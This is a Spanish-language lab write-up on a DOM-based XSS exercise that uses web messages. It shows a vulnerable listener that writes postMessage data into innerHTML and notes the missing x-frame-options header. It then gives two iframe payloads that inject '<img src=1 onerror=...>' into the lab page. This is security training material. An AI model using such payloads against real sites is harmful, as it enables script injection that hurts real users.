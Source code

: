 # Lab 1: DOM XSS using web messages

Primero analizamos el codigo fuente y se detecta un codigo javascript interesante:

```html
<!-- Ads to be inserted here -->
<div id='ads'></div>
<script>
window.addEventListener('message', function(e) {
  document.getElementById('ads').innerHTML = e.data;
})
</script>
```

* La función `innerHTML` asigna directamente el contenido HTML al elemento `div` con id `ads`.
* Si el contenido (`e.data`) incluye código HTML o JavaScript, este será interpretado y ejecutado por el navegador.

Teniendo en cuenta lo anterior y adicionalmente la ausencia de la cabecera de x-frame-options:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 11084
```

Se procede a crear un HTML con el siguiente payload:

{% code overflow="wrap" %}
```html
<iframe src="https://0a6f00e203d49a2b80f7121800fe00bb.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(2024)>','*')">
```
{% endcode %}

Y lo anterior, nos genera el siguiente comportamiento:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

El siguiente payload nos ayudara a resolver el ejercicio:

{% code overflow="wrap" %}
```html
<iframe src="https://0a6f00e203d49a2b80f7121800fe00bb.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
{% endcode %}

